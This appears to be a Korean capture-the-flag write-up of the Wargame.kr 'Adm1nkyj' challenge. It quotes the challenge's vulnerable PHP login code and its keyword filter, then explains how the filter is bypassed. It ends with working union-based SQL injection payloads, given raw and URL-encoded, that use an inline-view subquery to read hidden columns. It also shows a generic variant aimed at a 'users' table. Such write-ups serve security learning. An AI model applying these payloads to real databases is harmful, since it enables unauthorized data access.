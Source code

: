 ## [Wargame.kr] - Adm1nkyj 

2018-08-06 Plit00 김두형



문제를 보자...

<img width="889" alt="wargame kr - 2 1 2018-08-01 02-27-39" src="https://user-images.githubusercontent.com/40850499/43504269-b3ada20c-959d-11e8-8148-229d324481e4.png">

> 즐거운 SQL injection challenge!!! 


$$
> start를 눌러보자 <
$$


```php
<?php
    error_reporting(0);
    
    include("./config.php"); // hidden column name
    include("../lib.php"); // auth_code function

    mysql_connect("localhost","adm1nkyj","adm1nkyj_pz");
    mysql_select_db("adm1nkyj");

    /**********************************************************************************************************************/
```

> Mysql 서버에서 adm1nkyj와 adm1nkyj_pz를 불러온다. 또한 select_db is adm1nkyj ~



```javascript
 function rand_string()
    {
        $string = "ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890abcdefghijklmnopqrstuvwxyz";
        return str_shuffle($string);
    }

    function reset_flag($count_column, $flag_column)
    {
        $flag = rand_string();
        $query = mysql_fetch_array(mysql_query("SELECT $count_column, $flag_column FROM findflag_2"));
        if($query[$count_column] == 150)
        {
            if(mysql_query("UPDATE findflag_2 SET $flag_column='{$flag}';"))
            {
                mysql_query("UPDATE findflag_2 SET $count_column=0;");
                echo "reset flag<hr>";
            }
            return $flag;
        }
        else
        {
            mysql_query("UPDATE findflag_2 SET $count_column=($query[$count_column] + 1);");
        }
        return $query[$flag_column];
    }

    function get_pw($pw_column){
        $query = mysql_fetch_array(mysql_query("select $pw_column from findflag_2 limit 1"));
        return $query[$pw_column];
    }
```

150번 id를 입력할때마다 초기화룰 하고 쿼리문을 날려 (error) blind sql injection은 안된다.



일단 첫번째로 id값을 알아내야하는데 or / = 과 같은 비교연산자들은 막혀있지 않기때문에 id값을 알아낼 수 있다.
또한, pw도 같은 방식으로 mysql_query에서는 {$id} 와 같은 변수 값을 쿼리에 넣을 수 있다. 
그리고 password_column도 알아내는 것이 가능하다.



```php
 $tmp_flag = "";
    $tmp_pw = "";
    $id = $_GET['id'];
    $pw = $_GET['pw'];
    $flags = $_GET['flag'];
    if(isset($id))
    {
        if(preg_match("/information|schema|user/i", $id) || substr_count($id,"(") > 1)  exit("no hack");
        if(preg_match("/information|schema|user/i", $pw) || substr_count($pw,"(") > 1) exit("no hack");
        $tmp_flag = reset_flag($count_column, $flag_column);
        $tmp_pw = get_pw($pw_column);
        $query = mysql_fetch_array(mysql_query("SELECT * FROM findflag_2 WHERE 
        -----------------------------------------------
        $id_column='{$id}' and $pw_column='{$pw}';"));
        -----------------------------------------------
        if($query[$id_column])
        {
            if(isset($pw) && isset($flags) && $pw === $tmp_pw && $flags === $tmp_flag)
            {
                echo "good job!!<br />FLAG : <b>".auth_code("adm1nkyj")."</b><hr>";
            }
            else
            {
                echo "Hello ".$query[$id_column]."<hr>";
            }
        }
    } else {
        highlight_file(__FILE__);
    }
```

———로 표시한 $id_column 이 부분을 본다면 $id에서 '을 넣어주면 $pw_column='{$pw} 이런식으로 $pw_column을 '로 덮어서 mysql_query에 변수 값을 넣어줄 수 있다.

이부분은 'union select 1,2,3,4,5를 이용해준다면 Hello 2 가 출력이된다.


$$
-- 반 풀었다 --
$$

```php
1. count_column / flag_column find~

2. $query = mysql_fetch_array(mysql_query("SELECT $count_column, $flag_column FROM findflag_2"))

3. selet $pw_column from findflag_2 limit 1

4. $tmp_flag = reset_flag($count_column, $flag_column);
        $tmp_pw = get_pw($pw_column);
        $query = mysql_fetch_array(mysql_query("SELECT * FROM findflag_2 WHERE $id_column='{$id}' and $pw_column='{$pw}';"));
        if($query[$id_column])
        {
            if(isset($pw) && isset($flags) && $pw === $tmp_pw && $flags === $tmp_flag)
            {
                echo "good job!!<br/>FLAG : <b>".auth_code("adm1nkyj")."</b><hr>";
            }
            else
            {
                echo "Hello ".$query[$id_column]."<hr>";
            }
           
```

이제 우리는 table_name을 알고 column_name만 알면 된다.
그럼 우리는 inline view를 사용하면 된다.



```mysql
id = 'or "='
pw = 'union select 1,2,3,4,4;%00%20A
flag = 'union select 1,flag,3,4,5 from (select 1,2,3,4 as flag,5 union select * from findflag_2 limit 1,1) as aa; A
```

flag = 'union select 1,flag,3,4,5 from (select 1,2,3,4 as flag,5 union select * from findflag_2 limit 1,1) as aa; 
으로 하면 select 1,flag,3,4,5가 출력이 되는데 from에 들어간 서브 쿼리가 실행되게 된다.



임시로 1 2 3 4 5 라는 임시 column 이 만들어지게 되는데   4는 우리가 뒤에 썼던 as를 통해서 flag가 된다.



그러면 union으로 findflag_2에 결과가 들어간다.

```mysql
1.id=%27%20union%20select%201%2cq%2c3%2c4%2c5%20from%20(select%201%2c2%2c3%2c4%20as%20q%20%2c5%20union%20select%20*%20from%20findflag_2)%20as%20t%20limit%201%2c1%23

2. Select * from users where id =‘’ union select 1,a,3 from(select 1,2,3, as a union select * from users)c;

```





Clear~!
